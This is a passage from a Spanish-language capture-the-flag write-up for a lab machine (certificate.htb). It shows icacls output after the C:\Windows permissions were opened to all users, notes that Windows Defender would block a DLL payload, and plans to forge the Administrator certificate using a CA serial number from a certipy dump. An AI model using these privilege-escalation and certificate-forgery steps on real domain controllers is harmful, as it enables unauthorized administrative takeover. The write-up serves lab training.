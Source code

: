 Echo esto veremos que funciono por lo que tendremos que ejecutar el siguiente comando de seguido:

```powershell
icacls C:\Windows
```

Info:

```
C:\Windows NT SERVICE\TrustedInstaller:(F)
           NT SERVICE\TrustedInstaller:(CI)(IO)(F)
           NT AUTHORITY\SYSTEM:(M)
           NT AUTHORITY\SYSTEM:(OI)(CI)(IO)(F)
           BUILTIN\Users:(M)
           BUILTIN\Users:(OI)(CI)(IO)(F)
           BUILTIN\Pre-Windows 2000 Compatible Access:(RX)
           BUILTIN\Pre-Windows 2000 Compatible Access:(OI)(CI)(IO)(GR,GE)
           CREATOR OWNER:(OI)(CI)(IO)(F)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(RX)
           APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(OI)(CI)(IO)(GR,GE)

Successfully processed 1 files; Failed processing 0 files
```

Veremos que si ha funcionado veremos que los permisos actualmente han cambiado viendo que cualquier usuario puede escribir o leer en la carpeta `C:\Windows`, esta informacion la saque del siguiente articulo:

URL = [Articulo de utilizar la herramienta PoC](https://motasemhamdan.medium.com/active-directory-pentesting-offensive-security-proving-grounds-access-writeup-ddf4f3c6fcb9)

Podriamos probar a generar una `.dll` como vemos en el articulo pero directamente el `Windows Defender` lo va a bloquear, por lo que no nos interesa, vamos a jugar con los certificados de los usuarios para obtener el de `administrador` ya que podremos crear con estos permisos cualquier certificado y posteriormente falsificarlo.

Antes tendremos que obtener el numero de serie del usuario `Administrator`, esto lo podemos hacer leyendo el volcado que realizamos anteriormente con la herramienta `certipy` cuando descubrimos que plantilla era la vulnerable:

```
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
```

Identificamos que el numero es `75B2F4BBF31F108945147B466131BDCA` con este numero podremos obtener el certificado privilegiado sabiendo que los permisos que tenemos en la carpeta `C:\Windows` es de cualquier usuario, por lo que podremos pedirlo desde ahi.
